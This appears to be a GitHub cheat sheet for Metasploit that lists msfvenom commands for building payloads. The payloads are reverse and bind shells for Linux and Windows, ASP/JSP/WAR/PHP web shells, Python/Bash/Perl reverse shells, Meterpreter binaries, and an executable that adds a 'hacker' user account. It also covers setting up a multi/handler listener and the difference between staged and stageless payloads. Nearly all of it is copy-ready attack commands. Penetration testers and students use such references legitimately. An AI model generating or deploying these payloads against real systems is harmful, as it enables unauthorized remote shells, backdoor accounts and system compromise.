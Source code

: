 # Metasploit Handler:

LHOST=local host

LPORT=local port

RHOST=remote host

RPORT=remote port

```
msfconsole -q
show options
show payloads
use exploit/multi/handler
set PAYLOAD <Payload name>
show options
Set RHOST <Remote IP>
set LHOST <Local IP>
set LPORT <Local Port>
Run
```

## List payloads:
```
msfvenom -l
```

## search for cmd/unix payloads
```
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
```

## look at payload options:
```
msfvenom --payload-options -p windows/shell/reverse_tcp
```

## Staged payloads: 
Staged payloads are denoted with the use of a forward slash (/; e.g. windows/shell/reverse_tcp). Staged payloads send a small stager to the target, which connects back to the attacker and downloads the rest of the payload. Therefore, staged payloads need special payload listeners, such as multi/handler in Metasploit. Staged payloads are ideal in situations where you have limited shellcode space, most commonly in Buffer Overflows.

## Stageless payloads:
Stageless payloads are denoted with the use of an underscore (_; e.g. windows/shell_reverse_tcp). Stageless payloads send the entire payload to the target at once, and therefore don’t require the attacker to provide more data. That means we have a variety of listeners we can use, such as Netcat.

# Non-Meterpreter Binaries
## Stageless Payloads for Linux:
```
x86 	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64 	msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Stageless Payloads for Windows:
```
x86 	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64 	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Staged Payloads for Linux:
```
x86	msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64 	msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Staged Payloads for Windows:
```
x86	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Web Payloads:
```
asp	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
aspx	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx
jsp	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
war	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
php	msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

## Scripting Payloads:
```
Python	msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
Bash	msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
Perl	msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
```

## Binaries Payloads:
```
Linux Bind Shell	msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf
Windows Reverse Shell	msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```

## Create User
```
msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe
```


# Meterpreter Binaries
## Staged Payloads for Windows:
```
x86	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Stageless Payloads for Windows:
```
x86	msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Staged Payloads for Linux:
```
x86	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Stageless Payloads for Linux:
```
x86	msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Meterpreter Web Payloads:
```
asp	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
jsp	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp
war	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war
php	msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

